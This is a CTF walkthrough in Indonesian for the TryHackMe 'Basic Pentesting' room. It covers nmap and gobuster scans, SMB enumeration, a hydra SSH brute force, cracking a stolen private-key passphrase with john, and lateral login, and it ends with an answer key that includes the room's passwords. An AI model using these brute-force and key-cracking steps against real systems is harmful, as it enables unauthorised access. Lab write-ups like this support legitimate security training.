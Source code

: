 # CTF Basic Pentesting
- TryHackMe Room: https://tryhackme.com/room/basicpentestingjt
- IP Machine: 10.10.71.212

## Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.71.212             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 19:52 EDT
Nmap scan report for 10.10.71.212
Host is up (0.20s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/28%OT=22%CT=1%CU=42337%PV=Y%DS=2%DC=T%G=Y%TM=64C454E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-07-28T19:53:01-04:00
| smb2-time: 
|   date: 2023-07-28T23:53:01
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   207.38 ms 10.8.0.1
2   207.68 ms 10.10.71.212

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.86 seconds
```

## Gobuster Report
- Baris perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%201.JPG)

- Ditemukan halaman /development dari gobuster. Buka halaman `http://<IP_Machine>/development` di browser, disana ditemukan file **dev.txt** dan **j.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%202.JPG)

- Isi file dev.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%203.JPG)

- Isi file j.txt

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%204.JPG)

- Dari informasi diatas diketahui bahwa:
	* Ada 2 user dengan inisial J dan K
	* User dengan inisial J memiliki password yang lemah
	* Mesin menggunakan service SMB (Samba). Jadi kita bisa menggunakan tool **enum4linux** untuk melakukan enumerasi
	* Mesin menggunakan web server Apache versi 2.5.12

## Enum4linux
- Baris perintah: `enum4linux -a <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%205.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%206.JPG)

- Dari hasil enumerasi diketahui bahwa, 2 user yang dimaksud adalah **jan** dan **kay**

## Brute force
- Dikarenakan jan memiliki password yang lemah dan machine memiliki service SSH maka kita memutuskan untuk melakukan brute force dengan hydra
- Brute force akun SSH jay dengan hydra. Baris perintah:  `hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP Machine> ssh`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%207.JPG)

- Password SSH jan adalah **armando**

## Gaining Access
- Akses SSH dengan user jan. Baris perintah: `ssh jan@<IP Machine>` lalu masukkan password yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%208.JPG)

- Setelah berhasil masuk kita berada di directory **/home/jan**. Navigasi ke directory **/home** dan disana ditemukan home directory **kay**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%209.JPG)

- Navigasi ke directory **/home/kay** dan disana ditemukan file **pass.bak** dan directory **.ssh**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2010.JPG)

- Kita tidak bisa membaca isi file **pass.bak** dengan user jan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2011.JPG)

- Navigasi ke directory **.ssh** dan disana ditemukan kunci public (**id_rsa.pub**) dan kunci privat (**id_rsa**) dari akun SSH kay

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2012.JPG)

- Kita bisa masuk ke akun kay kalau kita bisa menemukan passphrase dari kunci privat kay
- Buka file id_rsa dengan baris perintah: `cat id_rsa`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2013.JPG)

- Buat sebuah file di local dan copy semua isi file **id_rsa**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2014.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2015.JPG)

- Ekstrak hash id_rsa dengan tool ssh2john: `ssh2john file_id_rsa > nama_file`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2016.JPG)

- Lakukan cracking hash dengan tool john the ripper:  `john --wordlist=/usr/share/wordlists/rockyou.txt file_hash`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2017.JPG)

- Passphrase berhasil ditemukan, gunakan passphrase tersebut untuk login ke SSH kay dengan perintah: `ssh -i id_rsa kay@IP_Machine` lalu masukkan passphrase yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2018.JPG)

- Setelah berhasil masuk sebagai kay kita bisa membaca isi file **pass.bak**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Basic%20Pentesting/assets/bp%2019.JPG)

## Pertanyaan dan Jawaban

- **Pertanyaan:** What is the name of the hidden directory on the web server(enter name without /)?
- **Petunjuk:** Jawaban bisa dilihat di Gobuster Report
```sh
development
```

- **Pertanyaan:** What is the username?
- **Petunjuk:** Nama user yang di brute force
```sh
jan
```

- **Pertanyaan:** What is the password?
- **Petunjuk:** Passwordnya user jan
```sh
armando
```

- **Pertanyaan:** What service do you use to access the server(answer in abbreviation in all caps)?
- **Petunjuk:** Service yang bisa digunakan untuk mengakses server
```sh
SSH
```

- **Pertanyaan:** What is the name of the other user you found(all lower case)?
- **Petunjuk:** Nama user selain jan
```sh
kay
```

- **Pertanyaan:** What is the final password you obtain?
- **Petunjuk:** Isi dari file pass.bak
```sh
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```